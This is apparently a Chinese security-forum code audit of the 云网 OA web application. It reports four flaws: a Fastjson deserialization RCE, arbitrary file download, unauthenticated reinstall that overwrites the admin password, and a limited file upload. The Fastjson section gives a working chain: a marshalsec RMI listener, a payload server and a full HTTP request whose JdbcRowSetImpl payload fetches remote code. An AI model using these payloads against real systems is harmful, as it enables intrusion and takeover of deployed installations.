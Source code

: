 

# 云网 OA 代码审计 - 先知社区

云网 OA 代码审计

- - -

## FastJson Rce

项目中使用到的是 fastjson1.2.37 版本。

漏洞点在：这里使用到了 ParseObject 方法。

```bash
com.cloudweb.oa.controller.updateUiSetup
```

[![](assets/1706255486-82c7c0b4736e62563984e9f1ea044f34.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126154722-23e17f8c-bc1f-1.png)

使用 marshalsec-0.0.3-SNAPSHOT-all.jar 开启 RMI 监听。

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://127.0.0.1:8000/#Exploit" 1389
```

[![](assets/1706255486-4a981a1b58a6270e8e22aaafca8533c1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126154730-28cb35ba-bc1f-1.png)

开一个 python web 服务。

```bash
python -m http.server 8000
```

payload 如下：

```bash
{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl" }, "b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://127.0.0.1:1389/Exploit", "autoCommit":true}}
```

请求包如下：

```bash
POST /oa//setup/updateUiSetup HTTP/1.1
Host: 192.168.0.7:8096
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: skincode=lte; name=admin; pwd=; JSESSIONID=85F37A117572BE90EA4BA0ED10F77EF5
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 196

uiSetup={"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl" }, "b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://127.0.0.1:1389/Exploit", "autoCommit":true}}
```

[![](assets/1706255486-9db12ed7bfd53e72500a47354cb33449.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126154740-2e59599e-bc1f-1.png)

可以看到接收到了 uiSetup 参数：

[![](assets/1706255486-b2ac76723945bc75a58980a3c6f3b908.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126154751-353f8486-bc1f-1.png)

最终反序列化执行：

[![](assets/1706255486-2867804a721768c000959bcf369df866.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126154802-3bc0727a-bc1f-1.png)

## 任意文件下载

功能点在模板列表这里，这里有一个下载文件的功能。

[![](assets/1706255486-4d261146e9af0ddcb6c01c6707abdbe8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126093925-bcb78c1c-bbeb-1.png)  
点击下载抓包：

可以看到这里需要传递进去一个 fileName 的参数。

[![](assets/1706255486-a256eb0778ad24e96040dadb1c405d6e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126093930-bfb1718a-bbeb-1.png)  
定位到功能点如下：

```bash
com.cloudweb.oa.controller.ReportController
```

来到 download 方法。这里会发现它拼接的是你 mysql 的路径，所以我们将 11.txt 文件放到它的上级目录进行下载。

这里的路径是你在 setup 安装的时候那个路径。

[![](assets/1706255486-038afaae717b7b5484989c3cd6e91437.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126093936-c3907526-bbeb-1.png)

[![](assets/1706255486-e54b3d854946da4bf9e119801245e0c8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126093939-c55c0500-bbeb-1.png)  
可以看到成功下载：

[![](assets/1706255486-732b94ff41c0f7089762d33c6b20981e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126093944-c82fcf96-bbeb-1.png)

##### 未授权 + 覆盖管理员密码

首先我们查看 Spring Security 的配置文件发现，setup 路劲是直接放开权限的。

[![](assets/1706255486-5199e41ce1b9f0da9b2d8c9a4ea85986.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126094026-e0fb47da-bbeb-1.png)  
那么我们是不是可以给他重装呢？

访问到 setup 目录，这里需要设置你服务器 mysql 的 ip 以及账号和密码。

[![](assets/1706255486-ae23766b00240f83f129626dbee6c6c1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126094032-e481ef08-bbeb-1.png)  
需要注意的是 mysql 默认不允许外网去访问的，所以需要去设置一下 mysql 这个库。

```bash
update user set host= '%' where user='root'
```

[![](assets/1706255486-b774d47efbb87ccf17df7d03f7f8000b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126094118-004b1f84-bbec-1.png)  
然后将数据库导入进来即可。

```bash
source C:\Users\Admin\redmoonoa.sql
```

现在我们就可以开始重装了，这里的没有改之前密码是 123456，然后重装之后密码就变成 111111 了。

成功登录。

[![](assets/1706255486-c2dd323162b2b0170332a5f06ff2cfd6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126094125-041709d4-bbec-1.png)

## 鸡肋的任意文件上传

我们在 setup 的时候会发现可以设置上传文件的路径，经过测试发现我们可以设置一个网站跟目录然后进行访问。

这里我们将文件目录设置为：

```bash
C:\Users\Admin\Downloads\yimioa-oa_git8.0\out\embed\weixin\message
```

[![](assets/1706255486-aee967ef0e1e12f401ec031d00d70f13.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126094131-07d826b6-bbec-1.png)  
点击设置进行保存。

然后选择系统里面有一个上传的配置，我们全部置空表示任何类型都可以上传。

[![](assets/1706255486-c70ba75905936b173f1bb98fbb3e4c79.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126094136-0b1c60a8-bbec-1.png)  
然后我们选择微信配置。

[![](assets/1706255486-801c032a1e36c3099a4dcd5e8fb71d85.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126094141-0e16b20e-bbec-1.png)  
这里有一个应用主页，将后面的路径复制出来。

[![](assets/1706255486-2a35b6bcbf016d1413d78c47c122e4df.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126094147-11c6c27c-bbec-1.png)  
拼接到跟路径然后选择应用。

[![](assets/1706255486-b32b86ee900a4460ae7bf4bf515eef8a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126094152-1484d24c-bbec-1.png)  
选择代办流程，然后随便选择一个流程项目。

这里点击上传即可。

[![](assets/1706255486-74efaa0d93c3594e9422e668b56d8151.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126094157-178ae6ca-bbec-1.png)  
上传文件之后的路径就是我们前面重装的时候设置的，他会生成一个 FileUploadTmp 目录。

可以看到文件名是通过时间戳 + 随机值来生成的。

前面 10 位就是时间戳后面是随机值。

[![](assets/1706255486-d628abde90c47fccfdf1f91ba65703f5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126094202-1a913bb2-bbec-1.png)  
尝试访问：

[![](assets/1706255486-d3d14375bdabc2b1dc431739e4d2625d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126094207-1d43e4b8-bbec-1.png)  
文件名我们无法控制所以有点鸡肋。
